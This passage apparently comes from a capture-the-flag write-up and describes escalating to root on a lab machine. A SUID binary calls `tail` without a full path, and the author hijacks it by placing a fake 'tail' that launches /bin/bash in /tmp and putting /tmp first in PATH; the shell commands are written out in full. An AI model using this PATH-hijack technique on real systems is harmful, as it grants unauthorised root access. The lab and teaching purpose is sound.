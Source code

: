 
![Strings on binary](https://marcorei7.files.wordpress.com/2021/06/strings-suid.png?w=472)

Here I saw, that the binary executed the `tail` command to show the content of the “/var/log/nginx/access.log” file. 

we notice that the `tail` binary is not running with full path

To exploit this, I went to the “/tmp” folder, created my own “tail” binary, added this one to the path and executed it again.

```bash
echo '/bin/bash' > tail
chmod 777 tail
export PATH=/tmp:$PATH
/home/joe/live_log
```

And with this I got root rights.